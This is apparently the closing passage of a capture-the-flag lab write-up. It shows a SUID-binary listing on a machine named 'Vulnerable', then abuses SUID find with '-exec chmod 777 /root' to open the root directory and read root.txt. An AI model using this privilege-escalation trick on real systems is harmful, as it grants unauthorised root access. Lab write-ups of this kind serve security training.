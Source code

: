 > -rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
> 
> -rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newgidmap
> 
> -r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
> 
> -rwsr-sr-x 1 daemon daemon 50748 Jan 15  2016 /usr/bin/at
> 
> -rwsr-xr-x 1 root root 39560 Mar 26  2019 /usr/bin/chsh
> 
> -rwsr-xr-x 1 root root 74280 Mar 26  2019 /usr/bin/chfn
> 
> -rwsr-xr-x 1 root root 53128 Mar 26  2019 /usr/bin/passwd
> 
> -rwsr-xr-x 1 root root 34680 Mar 26  2019 /usr/bin/newgrp
> 
> -rwsr-xr-x 1 root root 159852 Jun 11  2019 /usr/bin/sudo
> 
> -rwsr-xr-x 1 root root 18216 Mar 27  2019 /usr/bin/pkexec
> 
> -rwsr-xr-x 1 root root 78012 Mar 26  2019 /usr/bin/gpasswd
> 
> -rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newuidmap
> 
> stoner@Vulnerable:~$ 



/usr/bin/find looks interesting! Let's research that: https://gtfobins.github.io/gtfobins/find/#suid


Looks like we can change permissions of a file? So we should try change permissions of the root directory!



> stoner@Vulnerable:~$  find . -exec chmod 777 /root \;
> 
> stoner@Vulnerable:~$ ls -la /root
> 
> total 12
> 
> drwxrwxrwx  2 root root 4096 Aug 22  2019 .
> 
> drwxr-xr-x 22 root root 4096 Aug 22  2019 ..
> 
> -rw-r--r--  1 root root   29 Aug 21  2019 root.txt
> 
> stoner@Vulnerable:~$ 



And now we can read the root.txt file!

## END



